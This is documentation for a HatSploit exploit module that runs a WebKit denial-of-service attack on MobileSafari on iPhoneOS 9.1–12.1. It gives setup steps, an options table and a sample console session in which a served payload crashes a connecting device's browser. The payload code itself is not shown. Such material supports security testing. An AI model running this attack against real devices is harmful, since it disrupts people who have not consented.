 # `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description                |
|-----------|-----------------------|----------|----------------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.                |
| `LPORT`   | 80                    | yes      | Local port.                |
| `FOREVER` | no                    | no       | Start http server forever. |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

**FOREVER**

Variable that contains type of http server.

## Scenarios

```
(hsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option     Value           Required    Description    
    ------     -----           --------    -----------    
    LHOST      192.168.1.95    yes         Local host.    
    LPORT      80              yes         Local port.
    FOREVER    no              no          Start http server forever.
 
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
(hsf: exploit: mobile_safari_app/webkit_filter_dos)>
```
